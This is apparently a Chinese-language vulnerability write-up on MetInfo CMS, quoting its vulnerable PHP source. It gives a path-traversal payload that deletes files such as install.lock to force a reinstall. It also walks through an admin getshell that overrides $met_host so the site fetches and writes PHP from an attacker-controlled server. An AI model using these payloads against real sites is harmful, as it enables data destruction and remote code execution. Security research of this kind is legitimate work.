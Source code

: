 *   第二行的login_check.php对身份验证
*   `$classcsv`要有值存在

身份验证的也是这个漏洞的一个限制条件，要么有管理员权限，要么后期构造利用csrf让管理员触发 
`$classcsv`变量可以溯源看到是由`$fileField`变量而来
然而`$fileField`也一样是可以被覆盖的 
于是构造payload
```
?fileField=1&flienamecsv=../../../robots.txt
```
成功删除了robots.txt，实际中可以删除install.lock文件，导致系统重装  



# metinfo后台getshell


版本暂时不详，本地测试的是5.3.5，参考[文章](http://www.91ri.org/16663.html) 
漏洞发生在`/admin/app/physical/physical.php`文件中的网站扫描功能 
其会访问metinfo官网提供的api接口，从而更新本地的php文件，由于接口地址的可覆盖，导致了任意写入php文件导致getshell 
漏洞发生代码如下
```php
if($physicaldo[11]==1){
	require_once $depth.'../../include/export.func.php';
	$met_file='/dl/standard.php';
	$post=array('ver'=>$metcms_v,'app'=>$applist);
	$result=curl_post($post,60);
		if(link_error($result)==1){
		$results=explode('',$result);
		file_put_contents('dlappfile.php',$results[1]);
		file_put_contents('standard.php',$results[0].$results[1]);
	}
	if(file_exists('standard.php')){filescan('../../..','standard.php');}
	else{$physical_file="0";}
}
```
看到写入文件的$result是又curl\_post获取的，跟进curl\_post函数看下
```php
    function curl_post($post,$timeout){
    global $met_weburl,$met_host,$met_file;
    $host=$met_host;
    $file=$met_file;
    	if(get_extension_funcs('curl')&&function_exists('curl_init')&&function_exists('curl_setopt')&&function_exists('curl_exec')&&function_exists('curl_close')){
    		$curlHandle=curl_init(); 
    		curl_setopt($curlHandle,CURLOPT_URL,'http://'.$host.$file); 
    		curl_setopt($curlHandle,CURLOPT_REFERER,$met_weburl);
    		curl_setopt($curlHandle,CURLOPT_RETURNTRANSFER,1); 
    		curl_setopt($curlHandle,CURLOPT_CONNECTTIMEOUT,$timeout);
    		curl_setopt($curlHandle,CURLOPT_TIMEOUT,$timeout);
    		curl_setopt($curlHandle,CURLOPT_POST, 1);	
    		curl_setopt($curlHandle,CURLOPT_POSTFIELDS, $post);
    		$result=curl_exec($curlHandle); 
    		curl_close($curlHandle); 
    		//die($result);
    	}
    	……
```
想要伪造`$result`的话，主要可以伪造的变量有`$met_host`和$`met_file` 
然而`$met_file`在传入之前进行了重新赋值`$met_file='/dl/standard.php';`，
然而`$met_host`并没有进行重新赋值 
根据metinfo的伪全局变量，就可以传入参数覆盖`$met_host` 
于是可以在自己的服务器中新建 `/dl/standard.php`文件如下
```
metinfo<Met><?php echo "<?php phpinfo();?>";?><Met><?php echo "<?php phpinfo();?>";?>
```